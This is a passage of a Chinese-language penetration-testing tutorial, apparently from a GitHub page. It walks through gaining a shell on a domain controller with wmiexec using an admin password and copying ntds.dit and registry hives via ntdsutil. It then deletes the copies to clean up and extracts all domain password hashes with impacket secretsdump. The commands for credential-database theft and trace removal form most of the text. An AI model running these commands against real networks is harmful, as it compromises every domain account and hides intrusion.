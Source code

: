  在域控 AD1 中以管理员模式打开命令行环境，执行命令：
 
 
```
proxychains4 python wmiexec.py HFANGDICHAN/Administrator:ruj9yJ\'@192.168.0.134
ntdsutil "ac i ntds" "ifm" "create full c:/test" q q
```


执行完成后，会在 `c:\` 下面新建 test 文件夹，将 ntds.dit 复制到 `c:\test\Active Directory\` 文件夹下；将 SYSTEM 和 SECURITY 两项复制到 `c:\test\registry\` 文件夹下。

通过 get 方法在交互式 shell 中把这两项下载到本地。然后在目标机器上将 test 文件夹删除：

``` 
rmdir /s/q test
```

然后就完成了收尾工作。 


## 导出 NTDS.DIT 中的域散列值


使用 impacket 工具包中的 `secretsdump` 脚本导出散列值。

```
python secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL -outputfile result
```


然后就导出了 ntds.dit 中的所有散列值，主要是生成了如下三个文件：

- `result.ntds.cleartext`：为空
- `result.ntds`
- `result.ntds.kerberos`

具体内容不再展示。

 
 
